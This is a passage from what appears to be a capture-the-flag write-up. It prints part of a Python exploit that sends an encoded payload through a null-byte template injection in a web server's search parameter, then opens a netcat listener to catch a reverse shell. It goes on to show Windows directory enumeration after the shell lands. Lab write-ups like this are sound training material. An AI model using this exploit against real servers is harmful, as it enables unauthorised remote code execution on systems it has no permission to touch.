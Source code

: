 ```python
encoded_payload = urllib.parse.quote_plus(payload)
url = f'http://{rhost}:{rport}/?search=%00{{.{encoded_payload}.}}'
urllib.request.urlopen(url)
print("\nEncoded the payload and sent a HTTP GET request to the target...")

# Print some information
print("\nPrinting some information for debugging...")
print("lhost: ", lhost)
print("lport: ", lport)
print("rhost: ", rhost)
print("rport: ", rport)
print("payload: ", payload)

# Listen for connections
print("\nListening for connection...")
os.system(f'nc -nlvp {lport}')
```
{% endraw %}

It seems this one starts a listener for us. I had to run it with root permissions to get it to bind to port 413 - but then I got a shell!

![](/assets/images/blogs/Pasted image 20210613114847.png)

And grabbed `user.txt.txt`:

![](/assets/images/blogs/Pasted image 20210613115128.png)

# Shell as kostas

Firstly I thought it was worth quickly checking for the Administrator flag and for other users on the box:

```cmd
PS C:\Users> dir


    Directory: C:\Users


Mode                LastWriteTime     Length Name                                                                      
----                -------------     ------ ----                                                                      
d----         18/3/2017   1:52 ??            Administrator                                                             
d----         18/3/2017   1:57 ??            kostas                                                                    
d-r--         19/6/2021  10:43 ??            Public                                                                    


PS C:\Users> cd Administrator
PS C:\Users\Administrator> dir
PS C:\Users\Administrator> type root.txt
PS C:\Users\Administrator> cd Desktop
PS C:\Users\Administrator> cd ../Public
PS C:\Users\Public> dir


    Directory: C:\Users\Public


```